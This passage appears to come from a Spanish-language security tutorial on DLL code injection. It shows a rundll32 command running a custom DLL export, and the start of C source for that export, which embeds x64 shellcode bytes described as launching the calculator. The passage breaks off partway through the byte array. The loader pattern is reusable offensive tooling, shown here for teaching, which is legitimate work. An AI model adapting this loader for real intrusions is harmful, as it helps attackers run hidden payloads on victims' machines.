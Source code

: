 ```
rundll32.exe f0ns1_exec.dll,f0ns1

```

Evidencia de la ejecución:

![basedll](/assets/images/basedll.png)


# DLL Inyección de código

## DLL calc shellcode section text

El código asociado a la inyección de la calculadora:
```c
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#pragma comment (lib, "user32.lib")


extern "C" {
__declspec(dllexport) BOOL WINAPI f0ns1(void) {
	
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	unsigned char payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
```